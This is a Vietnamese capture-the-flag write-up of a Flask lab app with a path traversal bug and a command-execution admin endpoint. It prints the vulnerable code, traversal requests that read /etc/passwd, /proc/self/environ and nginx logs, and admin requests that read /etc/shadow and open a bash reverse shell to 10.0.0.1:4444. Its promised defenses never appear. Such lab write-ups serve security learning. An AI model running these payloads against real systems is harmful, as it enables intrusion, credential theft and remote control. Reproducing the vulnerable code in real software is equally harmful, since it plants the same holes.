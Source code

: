 <h3>Write-up Chuyên Sâu: Khai Thác Lỗ Hổng Hệ Thống Tập Tin Trên Linux
Giới Thiệu
Trong bài viết này, chúng ta sẽ đi sâu vào phân tích một lỗ hổng bảo mật nghiêm trọng trong ứng dụng web sử dụng Flask trên nền tảng Linux. Lỗ hổng kết hợp giữa khả năng đọc file tùy ý (Path Traversal) và thực thi lệnh từ xa (RCE) thông qua việc lộ API key trong biến môi trường. Bài viết sẽ trình bày chi tiết từng bước khai thác, kèm theo phân tích kỹ thuật sâu và các biện pháp phòng chống hiệu quả.<h3>

Phân Tích Ứng Dụng
1. Kiến Trúc Ứng Dụng
Ứng dụng được xây dựng bằng Python Flask với ba endpoint chính:

```/```: Trang chủ đơn giản

```/file```: Cho phép đọc nội dung file từ thư mục ./files/

```/admin```: Cho phép thực thi lệnh hệ thống khi cung cấp đúng API key

2. Mã Nguồn Quan Trọng
```
@app.route('/file', methods=['GET'])
def file():
    path = request.args.get('path', None)
    if path:
        data = open('./files/' + path).read()  # Lỗ hổng Path Traversal
        return data
    return 'Error !'

@app.route('/admin', methods=['GET'])
@key_required
def admin():
    cmd = request.args.get('cmd', None)
    if cmd:
        result = subprocess.getoutput(cmd)  # Lỗ hổng RCE
        return result
    return 'Error !'
```
Chi Tiết Lỗ Hổng
1. Path Traversal (CWE-22)
Nguyên nhân: Không kiểm tra input người dùng khi ghép vào đường dẫn file

Tác động: Đọc bất kỳ file nào hệ thống có quyền truy cập

Ví dụ khai thác:
```
GET /file?path=../../../../etc/passwd
```
2. RCE qua Biến Môi Trường
Cơ chế: API key được lưu trong biến môi trường và có thể bị lộ

Rủi ro: Kẻ tấn công có thể thực thi lệnh tùy ý khi có API key

Ví dụ:
```
GET /admin?API_KEY=xxx&cmd=id
```
Quy Trình Khai Thác Chi Tiết
Bước 1: Xác Định Lỗ Hổng Path Traversal
Thử đọc file hệ thống cơ bản:
```
GET /file?path=../../../../etc/passwd
```
Phân tích kết quả:

Thành công: Xác nhận lỗ hổng tồn tại

Thất bại: Có thể do filter hoặc sandbox

Bước 2: Tìm Kiếm Thông Tin Nhạy Cảm
Các vị trí quan trọng:

File log ứng dụng:
```
GET /file?path=../../../../var/log/app.log
```
File cấu hình nginx:
```
GET /file?path=../../../../etc/nginx/nginx.conf
```
Biến môi trường tiến trình:
```
GET /file?path=../../../../proc/self/environ
```
Bước 3: Khai Thác Lộ API Key
Phân tích file log nginx tìm request chứa API key:
```
GET /file?path=../../../../var/log/nginx/access.log
```
Nâng cấp quyền hạn:
```
GET /admin?API_KEY=SECRET_KEY&cmd=sudo+-l
```
Bước 5: Chiếm Quyền Hệ Thống
Tạo reverse shell:
```
GET /admin?API_KEY=SECRET_KEY&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261"
```
Khai thác sâu hơn:

Đọc file shadow:
```
GET /admin?API_KEY=SECRET_KEY&cmd=cat+/etc/shadow
```
Tìm kiếm file flag:
```
GET /admin?API_KEY=SECRET_KEY&cmd=find+/+-name+"*flag*"
```
Phân Tích Nâng Cao
1. Kỹ Thuật Bypass Filter
Sử dụng encoding:
```
GET /file?path=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```
Đọc trực tiếp:
```
GET /file?path=../../../../proc/self/environ
```
Kết Luận
Qua bài lab này, chúng ta đã học được:

Cách khai thác lỗ hổng Path Traversal để leo thang đặc quyền

Kỹ thuật tìm kiếm thông tin nhạy cảm trong hệ thống Linux

Phương pháp phòng chống các lỗ hổng tương tự

Flag thu được: DH{2a4ff4e94d09793c662d1bd7ec5d497d7b190c6f}

Hãy luôn nhớ: "Security is a process, not a product" - Bruce Schneier. Việc hiểu rõ các lỗ hổng và cách phòng chống sẽ giúp chúng ta xây dựng hệ thống an toàn hơn.



